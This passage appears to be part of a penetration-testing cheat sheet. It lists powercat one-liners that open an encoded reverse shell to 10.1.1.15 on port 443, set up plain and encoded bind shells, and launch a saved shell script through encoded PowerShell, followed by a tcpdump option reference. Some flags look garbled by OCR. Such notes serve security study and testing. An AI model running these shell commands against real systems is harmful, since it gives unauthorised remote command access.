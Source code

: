         -   **Encoded reverse shell**

            -   powercat -c \[server\] --p \[port\] -e cmd -ge \> reverse.ps1

	                >Ex: powercat -c 10.1.1.15 -p 443 -e cmd --g

        -   **Bind shell**

            -   powercat -l -p \[port\] -e cmd -g \> bind.ps1

	                >Ex: powercat -l -p 8000 -e cmd -g

        -   **Encoded bind shell**

            -   powercat -l -p \[port\] -e cmd -ge \> bind.ps1

	                >Ex: powercat -l -p 8000 -e cmd -ge

            -   c:\\\> PowerShell \"\$a=type bind.ps1; PowerShell -E \$a\"



-  <h2 align="center"> **TCPDUMP ** </h2>
<pre>

    -   tcpdump --D     		    -\> See the list of interfaces on which tcpdump can listen

    -   tcpdump -i {eth0,any,wlan0,...}     -\> any = Listen on any available interface

    -   tcpdump --i eth0 {-v , -vv , -vvv } -\> be verbose , be more verbose , very verbose

    -   tcpdump -v --x            	    -\> + print hex and asci value of the packets

    -   tcpdump -v --xx                     -\> + print hex and asci value of the packets + the link level header

    -   tcpdump --q              	    -\> Be less verbose (than the default)

    -   tcpdump -c 100            	    -\> Limit the capture to 100 packets

    -   tcpdump --w result.cap    	    -\> save captured packets to a file capture.cap

    -   tcpdump --r captured.cap  	    -\> Display the packets of a file called capture.cap

    -   tcpdump -n {dst host 192.168.1.1 , src host 192.168.1.1 , host 192.168.1.1 }

    -   tcpdump -n {dst net 192.168.1.0/24 , src net 192.168.1.0/24 , net 192.168.1.0/24}

    -   tcpdump -n { dst port 23 , src port 23 , port 23}

    -   tcpdump -n {dst portrange 1-1023 , src portrange 1-1023 , portrange 1-1023 }

    -   tcpdump -n {tcp , udp } dst portrange 1-1023

    -   tcpdump -n "dst host 192.168.1.1 and (dst port 80 or dst port 443)"

    -   tcpdump -v {icmp , arp , tcp , udp , ...}
</pre>